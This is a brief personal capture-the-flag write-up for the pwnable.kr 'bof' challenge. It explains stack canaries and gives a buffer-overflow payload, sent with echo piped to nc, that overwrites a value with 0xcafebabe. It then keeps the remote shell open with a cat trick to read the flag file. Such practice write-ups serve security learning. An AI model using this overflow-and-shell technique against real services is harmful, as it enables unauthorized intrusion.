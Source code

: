 # bof

Had to look at the solution off youtube for this one. I've done a buffer overflow before but in
this case when you overflow the buffer with something like 64 * 'a', the program will terminate
with:

"*** stack smashing detected ***"

Learnt that this was a result of having a stack canary which is a special value on the stack
which when overritten, will terminate the program, to prevent buffer overflows attacks.

Piping an echo command via:
echo "AAAABBBBCCCCDDDDEEEEFFFFGGGGHHHHIIIIJJJJKKKKLLLLMMMM\xbe\xba\xfe\xca" | nc pwnable.kr 9000

should allow you to overwrite the buffer to 0xcafebabe but instead results in stack smashing
detected termination.

The youtube video had a neat little trick where you can do this:
(echo "AAAABBBBCCCCDDDDEEEEFFFFGGGGHHHHIIIIJJJJKKKKLLLLMMMM\xbe\xba\xfe\xca"; cat) 
| nc pwnable.kr 9000

because echo closes the nc shell after the pipe is complete, you can ask it to execute cat to
keep the shell open.

ls - and then you will see a flag file that you can cat.



